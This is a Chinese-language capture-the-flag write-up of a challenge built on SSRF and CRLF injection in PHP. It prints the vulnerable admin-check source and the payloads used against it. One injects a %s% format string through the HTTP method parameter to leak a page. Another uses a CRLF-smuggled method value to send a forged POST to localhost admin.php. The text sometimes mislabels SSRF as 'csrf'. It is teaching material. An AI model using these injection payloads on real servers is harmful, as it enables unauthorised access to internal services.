

# 服务端检测系统
## 考察知识点：
### 1.ssrf
### 2.crlf注入

### 1.右键点击，查看网页源码发现服务端源码

```
<!-- /admin.php -->

<?php
    if(isset($_POST['method']) && isset($_POST['url']) ){
        $method=$_POST['method'];
        $url=$_POST['url'];

        if(preg_match('/^http:\/\//i',$url)){
            $opts = array(
                'http'=>array(
                    'method'=>$method,
                    'timeout'=>3
                )
            );

//            创建并返回一个资源流上下文，该资源流中包含了 options 中提前设定的所有参数的值。
            $context = stream_context_create($opts);

//            关键代码，无任何限制读取url页面内容，大概率存在ssrf漏洞
            $body = @file_get_contents($url."/anything", false, $context);

            if(isset($http_response_header)){
                preg_match("/Allow:(.*?);/i",implode(';',$http_response_header).";",$matches);
                if(isset($matches[1])){
                    echo "服务端支持的请求方法有:".$matches[1];
                }else{
                    echo "failed<br>";
                    echo sprintf("body length of $method%d", $body);
                }

            }else{
                echo "error";
            }
        }else{
            echo 'not allowed';
        }

    }
```

### 2.观察源码存在admin.php页面，访问该页面


但是提示仅仅只有127.0.0.1可以访问，尝试更改xff头绕过，可是行不通。

### 3.根据源码此时已经可以确定这个题，需要用到csrf漏洞

获取其他页面的内容，很符合ssrf的利用方式

参考链接：https://xz.aliyun.com/t/2115

### 3.尝试利用此处的csrf访问admin.php文件


发现还是不行，阅读源码

```
if(isset($http_response_header)){
    preg_match("/Allow:(.*?);/i",implode(';',$http_response_header).";",$matches);
    if(isset($matches[1])){
        echo "服务端支持的请求方法有:".$matches[1];
    }else{
        echo "failed<br>";
        echo sprintf("body length of $method%d", $body);
    }

}else{
    echo "error";
}
```

`sprintf("body length of $method%d", $body);`这句代码有问题，因为格式化字符串`"body length of $method%d"`

$body为file_get_contents获取网页返回的的字符串，%d是表示int型数据，所以此处返回0，现在的思路就为：

#### 4.让%d变成%s，使file_get_contents获取的admin.php内容能够正常显示

此处的$method参数可控，所以只要把%d给转义掉，再注入%s，就能让其显示$body内容，列如$method传入%s%，那么最后拼接成的便是`body length of %s%%d`,而最后显示的效果就是`echo sprintf("body length of %s", $body);`


在本地测试，file_get_contents成功获取到admin.php文件内容，并显示在输出的字符串$str中

### 5.虽然此处的method是作为请求方式来去发起http请求的，那么发出的请求包是这样的：
```
%s% /admin.php?/anything HTTP/1.0
Host: 127.0.0.1
```

%s自然是不能作为一个正常的请求头。但是某些中间间可能也会当做GET请求来响应，比如当前环境中会正常返回admin.php页面内容，所以此时将$method改为%s%构造的http报文，也照样可以正常访问



### 6.此时就获取到了admin.php文件的内容

观察这里的代码：

发现这⾥⽤的是file_get_contexts()函数来发起HTTP请求，⼀些配置选项包括这⾥的请求⽅式是
作为⼀个数组经过stream_context_create()处理后传⼊的。其实这⾥就存在CRLF注⼊漏洞，即我们可
以完全⾃⼰构造⼀个完整的POST包发出去

crlf注入：https://wooyun.js.org/drops/CRLF%20Injection%E6%BC%8F%E6%B4%9E%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E5%AE%9E%E4%BE%8B%E5%88%86%E6%9E%90.html


### 7.$method参数，是我们可控的构造：
```
url=http://127.0.0.1/&method=POST /admin.php HTTP/1.1
Host: x
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

iwantflag=yes%26b=%s%
```

content-Length：50自己估算长度

%26=&,用来分隔后面的参数，%S%,因为要返回的数据还是为字符串，所以%s%


此时发送的数据包为：

```
POST /admin.php HTTP/1.1
Host: x
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

iwantflag=yes&b=%s% 
```

服务器响应了，第二个我们构造的数据包，满足admin.php文件的要求，返回flag

